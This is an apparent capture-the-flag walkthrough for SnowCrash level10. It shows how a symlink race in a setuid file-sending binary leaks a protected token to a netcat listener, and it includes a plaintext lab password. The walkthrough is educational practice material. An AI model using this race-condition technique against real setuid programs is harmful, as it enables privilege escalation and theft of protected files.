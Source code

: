 ## level10
```
flag09@SnowCrash:~$ su level10
Password: s5cAJpM8ev6XHw998pRWG728z
level10@SnowCrash:~$
```
```
level10@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```
```
level10@SnowCrash:~$ ./level10 .bashrc 0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```
i use `tmux` for multi windows  
`0.0.0.0:6969` we will be listen this port with  help `nc`
```
nc -l 6969
```
create file for test connection 
```
echo Hello! > /tmp/test
./level10 /tmp/test 0.0.0.0
```
```
level10@SnowCrash:~$ nc -l 6969
.*( )*.
hello!
```
create link for `token`
```
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```
open three windows in `tmux`
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```
```
nc -l 6969
```
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/exploit 0.0.0.0; done
```
